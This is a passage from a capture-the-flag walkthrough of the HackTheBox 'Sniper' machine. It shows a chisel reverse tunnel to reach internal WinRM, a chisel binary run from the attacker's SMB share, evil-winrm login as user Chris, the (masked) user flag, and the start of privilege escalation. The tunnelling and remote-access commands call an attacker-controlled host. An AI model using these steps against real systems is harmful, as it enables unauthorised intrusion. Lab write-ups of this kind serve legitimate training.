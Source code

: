It worked with the user `Chris`. But I cannot gain access as the machine doesnt have WinRM exposed by default.

Using `netstat` I discover that it is openly but internally. So I can use [`chisel`](https://github.com/jpillora/chisel) to perform a remote port forwarding in order to gain access as `Chris`.

I run up the server in my local machine.

~~~bash
❯ ./chisel server --reverse -p 1234
2024/01/01 20:26:22 server: Reverse tunnelling enabled
2024/01/01 20:26:22 server: Fingerprint 9iC67JpqKEh98zkcCLgaEpHfI0kZ64QfPsGd8IM5piA=
2024/01/01 20:26:22 server: Listening on http://0.0.0.0:1234
~~~

And in the victim one I run `chisel.exe` as a client.

>In order to execute it I downloaded the Windows 64-bit version from the repo and hosted it in the previouslu set SMB server.

~~~cmd
C:\inetpub\wwwroot\blog>\\10.10.14.2\ziox\chisel.exe client 10.10.14.2:1234 R:5985:127.0.0.1:5985
2024/01/01 20:16:48 client: Connecting to ws://10.10.14.2:1234
2024/01/01 20:16:54 client: Connected (Latency 854.9763ms)
~~~

Now I can access through WinRM using `evil-winrm` to the victim machine as `Chris`:

![](@assets/HackTheBox/Sniper/9.png)

From here we can get the first flag.

~~~powershell
*Evil-WinRM* PS C:\Users\Chris\desktop> type user.txt
837xxxxxxxxxxxxxxxxxxxxxxxxxxx
~~~

## Privilege escalation

With Chris I find an unusual directory (C:\Docs) in the root dir.

~~~powershell
*Evil-WinRM* PS C:\docs> ls


    Directory: C:\docs


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        4/11/2019   9:31 AM            285 note.txt
-a----        4/11/2019   9:17 AM         552607 php for dummies-trial.pdf


*Evil-WinRM* PS C:\docs> type note.txt
Hi Chris,
	Your php skillz suck. Contact yamitenshi so that he teaches you how to use it and after that fix the website as there are a lot of bugs on it. And I hope that you've prepared the documentation for our new app. Drop it here when you're done with it.

Regards,
Sniper CEO.
~~~
